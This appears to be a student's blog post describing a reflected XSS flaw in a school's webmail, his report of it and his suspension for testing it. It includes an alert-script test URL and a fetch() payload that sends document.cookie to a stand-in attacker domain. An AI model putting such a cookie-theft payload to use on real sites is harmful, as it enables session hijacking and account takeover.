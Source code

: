 ```yaml
---
title: "How I got suspended for doing the right thing."
publishedAt: 1656992369870
description: "And why no good deed goes unpunished."
tags: ["coding", "cybersecurity", "hacking"]
---
```


# The backstory

In typical American high schools, you are assigned an email address on your school's domain and allocated an inbox using something like GSuite or Microsoft office.
This same thing happened at my school, but we would use the in-house solution that I'll call XMail. The XMail interface was simple, a table with your emails and a button to send a new one. You get the idea.

<XMailTable />

The interesting part of this story came when I needed to send an email to one of my teachers. After hitting send, a banner appeared displaying the text "Email sent successfully". But something immediately caught my eye.
The way this worked was by modifying the URL to include a query parameter containing the banner text, like this `https://school.org/XMail?message=sent%20successfully`. This leads right into what the problem was.

# The vulnerability

In the various places I had worked, I tinkered around with security and knew what the best practices were for building websites (Coming soon: how I sent my boss our entire user table w/ emails and hashed passwords without any database access). Which is why such a brazen display of injecting user input without serialization into a webpage made me curious right away. I immediately started tinkering around and found that by modifying this query parameter, you can put _anything_ you want in the banner, even HTML.
Something like `https://school.org/XMail?message=<script>alert("hi!")</script>` will prompt an alert on the page of whoever opens the link. This is a glaring problem.
Why? Because of something called a [Cross Site Scripting Attack (XSS)](https://owasp.org/www-community/attacks/xss/). The way this works is that an untrusted script is injected into an otherwise trusted site without the user's knowledge or consent.
In this situation, it means an attacker can send someone a link to XMail with a specially crafted payload encoded, and when the user clicks the link they'll be directed to XMail, but without knowing it, malicious code is running on their browser. This is especially dangerous because of the way the school website worked, where _session IDs were not stored in an [HttpOnly cookie](https://owasp.org/www-community/HttpOnly)_, allowing an attacker access to a user's cookies using `document.cookie`.
The attacker can then make a HTTP request to a remote server and send that cookie over, using an example payload encoded into the URL like this:

<CodeBlock code={`fetch("http://someotherdomainIown.com/receive-cookies", {
  method: "POST",
  mode: "no-cors",
  body: document.cookie,
  headers: {
    "Content-Type": "application/x-www-form-urlencoded "
  }
});`} />

With this session ID in hand, the attacker can then authenticate themselves as the user without them knowing. To them, they just clicked on a link that took them to their email, but to an attacker, they now have full access to their account. This meant someone could target a student, a teacher, or even a principal. Everyone was at risk.
This had the potential of costing the school district tens of thousands of dollars.

# The report

As soon as I confirmed my suspicions, I drafted an email to send to my Principal explaining the situation at hand and steps they could take to fix the vulnerability (all of the school JS files were unobfuscated). I sent it off thinking I had done my good deed for the day and headed to bed. I woke up on the following Monday as always, dreading going to school. For the most part, it was a normal day.
About halfway through the day, I was called down to the main office to meet with the Principal. It wasn't a shock to me, as I assumed they would want to follow up with me to get some additional information. This first meeting was nothing special, it consisted mainly of "How did you come across this?", "How did you figure this out?", and "Thanks for bringing this to our attention". That was that, and after some handshakes and some patting on the back, I went back to class.
I was then called down the following day, which immediately struck me as odd. I thought everything that needed to be said was said and that everyone would move on. I was asked to elaborate in more detail about the vulnerability, with the Principal scribing various notes on his notepad -- which should have tipped me off to be more careful about what I was telling him. Instead, as naive as I was, I told him the story again, with full honesty and transparency.
This was a lesson to me that when a person of authority is actively writing down everything you are saying, take a moment to figure out whether this is in your interest or not. Moving on, the meeting concluded and he thanked me once more for my cooperation. I went back to class and thought "okay, maybe that was just for record-keeping and now I can finally move on". This was where I was sorely mistaken.

# The day of judgment

The _next_ day, I was called down for the third time, which immediately let me know things were not okay. The Principal sat me down and said that while the school district was impressed with what I did, they wanted to pursue punishment for what they call a "violation of the student code of conduct".
It turns out, that the second I ran `https://school.org/XMail?message=<script>alert("hi!")</script>` in the URL bar, I was in direct violation of the Student Code of Conduct. While what I did was not explicitly outlined, they used what's called an "elastic clause". It essentially meant that the district reserved the right to punish any behavior that they deem unfavorable, even if it wasn't outlined in the code of conduct.
The district had some deliberation on what punishment they wanted to give me, and they landed on around 2-3 weeks of suspension and district computer privileges revoked.
I was dumbfounded. I thought my creativity and knowledge were something to be celebrated, something to be thanked for, not something to be punished for. The district had actually suffered a data breach earlier in the year, and according to the local news, had spent over $10k in investigation, remediation, and cleanup efforts. In my eyes, I thought that I saved the district from going through the same thing once again. However, they were not on the same page.
Thankfully, my Principal was somewhat on my side. He rallied on my behalf to get me a less severe punishment. He was able to negotiate the punishment down to one day, which I was extremely grateful for. I didn't count it as a victory quite yet though. I began drafting a letter of appeal to the district's Board of Education with my AP Government teacher. However, that didn't go far as they essentially responded with "too bad, so sad".
In the end, I served that one day of suspension and completed more school work in that one day of suspension than I had in the past two weeks of regular school. One might call it a silver lining.

# The takeaway

This experience taught me a lot about responsible reporting procedures as I discussed the situation afterward with my mentors from Discord. In the future, if you suspect there's a vulnerability in a website, do the responsible thing and get in contact with the site's admin instead of trying it beforehand without clearance. To end this, I have no qualms with the school district.
However, the steps they took to punish me set a precedent for all the other students that it's a risky idea to go looking for bugs. I wish the best of luck to the next student in that school district who comes across a similar vulnerability.

_Thanks for reading this article! Check me out on [GitHub](https://github.com/zaida04)!_
